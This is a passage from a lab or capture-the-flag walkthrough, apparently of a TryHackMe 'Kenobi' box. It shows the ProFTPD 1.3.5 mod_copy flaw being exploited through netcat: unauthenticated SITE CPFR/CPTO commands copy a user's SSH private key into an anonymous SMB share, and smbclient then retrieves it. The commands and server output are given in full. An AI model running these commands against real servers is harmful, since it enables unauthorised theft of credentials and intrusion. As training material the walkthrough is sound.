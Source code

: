 ```bash
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

You should have found an exploit from ProFtpd's [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html). 

The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

![](https://i.imgur.com/LajBhh2.png)  

We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

```bash
┌──(root㉿kali)-[~]
└─# nc 10.10.185.64 21                 
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.185.64]
SITE CPFR /home/kenobi/.shh/id_rsa
550 /home/kenobi/.shh/id_rsa: No such file or directory
SITE CPTO /var/tmp/id_rsa
503 Bad sequence of commands
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
421 Login timeout (300 seconds): closing control connection
```

```bash
┌──(root㉿kali)-[~]
└─# nc 10.10.185.64 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.185.64]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /home/kenobi/share/id_rsa
250 Copy successful
QUIT
221 Goodbye.

┌──(root㉿kali)-[~]
└─# smbclient //10.10.185.64/anonymous                           
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon May  1 07:07:15 2023
  ..                                  D        0  Wed Sep  4 10:56:07 2019
  id_rsa                              N     1675  Mon May  1 07:07:15 2023
  log.txt                             N    12237  Wed Sep  4 10:49:09 2019

                9204224 blocks of size 1024. 6867760 blocks available
smb: \> get id_rsa
getting file \id_rsa of size 1675 as id_rsa (817.8 KiloBytes/sec) (average 817.9 KiloBytes/sec)
smb: \> 

```
